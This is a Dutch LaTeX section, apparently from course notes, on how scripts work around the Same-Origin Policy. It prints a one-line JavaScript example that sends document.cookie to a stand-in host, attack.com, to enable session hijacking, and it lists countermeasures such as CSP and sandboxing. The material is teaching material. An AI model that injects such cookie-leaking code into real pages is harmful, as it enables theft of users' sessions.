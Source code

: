 \documentclass[../main.tex]{subfiles}
\begin{document}
\subsection{Scripts}
Hoewel de \textbf{SOP} voorkomt dat script rechtstreeks verbinding maken met een server van de aanvaller kunnen script toch entiteiten aan de webpagina toevoegen die leiden tot een HTTP request naar een script-specifieke server. Als voorbeeld zien we hieronder hoe een script een cookie kan lekken naar een andere server.
\begin{lstlisting}[caption=Javascript code om cookie te lekken]
new Image().src = "http://attack.com/?=" + document.cookie;
\end{lstlisting}
Het is zelfs mogelijk voor het script om in twee richtingen te communiceren met \textit{JSONP}.
\\\\
Zoals gezegd kan voorgaande techniek gebruikt worden om de session cookie te lekken. Eens hiervan in het bezit kan de aanvaller de hele sessie overnemen. Een andere aanval bestaat uit een script dat willekeurige requests stuurt naar de server van waar het script komt en op die manier bijkomende requests stuurt in de gebruikerssessie.

\subsubsection{Tegenmaatregelen}
Er zijn twee algemene tegenmaatregelen voor dit probleem:
\begin{itemize}
	\item Ontwerp van de JavaScript API en de browser
	\item De \textit{Same-Origin-Policy} die wordt afgedwongen door de brwoser
\end{itemize}
Deze twee zullen de meeste aanvallen kunnen stoppen. Toch zijn bijkomende tegenmaatregelen belangrijk.

\begin{itemize}
	\item Defensief programmeren aan de serverzijde om zich te beschermen tegen \textit{XSS} kwetsbaarheden.
	\item  De \textbf{Content Security Policy} is een nieuwe \textit{W3C} standaard die toelaat aan de eigenaar van de pagina om te declareren waar de cli\"ent verwacht wordt inhoud op te halen.
	\item \textbf{Sandboxing} van JavaScript code beperkt de mogelijkheden van een script aan de hand van een beleid dat door de programmeur is gespecificeerd.
	\item \textbf{Information flow security} beperkt de stroom van informatie door scripts van gevoelige bronnen naar publieke servers.
\end{itemize}
\end{document}
